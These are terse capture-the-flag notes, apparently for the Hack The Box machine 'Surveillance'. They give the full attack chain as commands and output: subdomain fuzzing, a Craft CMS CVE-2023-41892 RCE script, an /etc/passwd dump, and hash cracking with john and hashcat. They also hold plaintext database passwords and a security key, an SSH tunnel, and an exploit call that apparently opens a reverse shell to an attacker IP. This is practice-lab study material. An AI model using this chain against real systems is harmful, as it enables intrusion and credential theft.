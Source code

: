 # ip
10.10.11.245

# wfuzz subdomains
wfuzz --hh 154 -c -w ../../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST:FUZZ.surveillance.htb" http://surveillance.htb

# rce cve-2023-41892
python3 craft-cms.py http://surveillance.htb

# etc/passwd
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
fwupd-refresh:x:115:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

# user
matthew
zoneminder

# version
"craftcms/cms": "4.4.14"

# hash matthew
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

# john command hash
john --format=raw-sha256 hash --wordlist=../../../rockyou.txt

# password matthew
starcraft122490

# ssh connection
ssh matthew@surveillance.htb -p 22

# zm file create zoneminder user
cat /etc/init.d/zoneminder

# info .env mysql
The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

cat .env

# mysql command
mysql -u craftuser -p
use craftdb;
show databases;
show tables;
describe users;
select username, email, password, id, admin, fullName from users;

# mysql pass hash admin
admin@surveillance.htb
$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe

# hashcat bcrypt
hashcat -m 3200 -a 0 hash_mysql ../../../rockyou.txt

# zm creds
cat /usr/share/zoneminder/www/api/app/Config/database.php

'datasource' => 'Database/Mysql',
                'persistent' => false,
                'host' => 'localhost',
                'login' => 'zmuser',
                'password' => 'ZoneMinderPassword2023',
                'database' => 'zm',
                'prefix' => '',
                //'encoding' => 'utf8',

# hash password zm
$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.

# connection tunnel ssh reverse zm
ssh -L 2222:127.0.0.1:8080 matthew@10.10.11.245

# connection ssh zoneminder user
python3 main.py -u http://localhost:2222 -i 10.10.14.15 -p 4444
